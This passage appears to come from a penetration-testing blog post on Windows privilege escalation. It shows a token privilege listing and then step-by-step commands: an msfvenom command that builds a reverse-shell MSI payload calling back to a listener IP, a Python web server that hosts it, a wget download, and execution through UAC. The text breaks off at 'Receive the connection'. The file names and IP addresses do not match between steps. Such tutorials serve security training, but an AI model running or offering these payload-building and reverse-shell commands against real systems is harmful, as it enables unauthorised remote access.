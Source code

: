 ```powershell
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeAuditPrivilege                Generate security audits                  Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled

ERROR: Unable to get user claims information.
```

If we execute Process Hacker as Administrator we can see the process tree:

{{< image src="/images/posts/process-hacker-autoelevate.png" caption="Process Hacker AutoElevate " src_s="/images/posts/process-hacker-autoelevate.png" src_l="/images/posts/process-hacker-autoelevate.png" >}}

> Note: In the case that you don't see the process tree, double click on the Name column to change the view. You may need to double click (change the view) multiple times.

Alternatively, we can just generate an MSI reverse shell:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f msi -o implant.msi
```

> Note: This can be easily detected by modern AVs.

Setup an HTTP listener with python:

```shell
sudo python3 -m http.server
```

Download the malicious MSI file to the current working directory:

```powershell
wget 192.168.146.128:8000/reverse.msi -o reverse.msi
```

Attempt to install reverse.msi by executing the following command:

```powershell
 .\reverse.msi
```

In the UAC, click `Yes` and wait for the connection:

{{< image src="/images/posts/registry-uac.png" caption="UAC Registry " src_s="/images/posts/registry-uac.png" src_l="/images/posts/registry-uac.png" >}}

Receive the connection:
